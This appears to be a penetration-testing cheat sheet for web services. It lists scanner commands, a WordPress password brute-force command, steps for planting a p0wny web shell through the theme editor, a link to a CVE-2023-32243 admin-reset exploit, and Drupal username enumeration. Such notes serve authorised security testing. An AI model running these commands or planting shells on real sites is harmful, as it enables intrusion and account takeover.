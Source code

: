 
## HTTP - HTTPS - 80 - 443

### Automatic scanners

```
nikto -h <URL>
python crawleet.py -u <URL> -b -d 3 -e jpg,png,css -f -m -s -x php,txt -y --threads 20
```

### Wordpress

```
# Scan
wpscan --rua -e --url <URL>

# Brute force user(s)
wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"
```

#### Wordpress panel RCE

```
Modifying a php from the theme used (admin credentials needed)

Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
```

#### Wordpress Priv Esc - Elementor lite

```
https://github.com/RandomRobbieBF/CVE-2023-32243
Able to reset admin password of site via vuln.  verify version at

/wp-content/plugins/essential-addons-for-elementor-lite/readme.txt

```

### Drupal

```
droopescan scan -u <URL>
```

#### Username enumeration

```
In /user/register just try to create a username and if the name is already taken it will be notified :
*The name admin is already taken*

If you request a new password for an existing username :
*Unable to send e-mail. Contact the site administrator if the problem persists.*

If you request a new password for a non-existent username :
*Sorry, test is not recognized as a user name or an e-mail address.*

Accessing /user/<number> you can see the number of existing users :
	- /user/1 -> Access denied (user exist)
	- /user/2 -> Page not found (user doesn't exist)
```
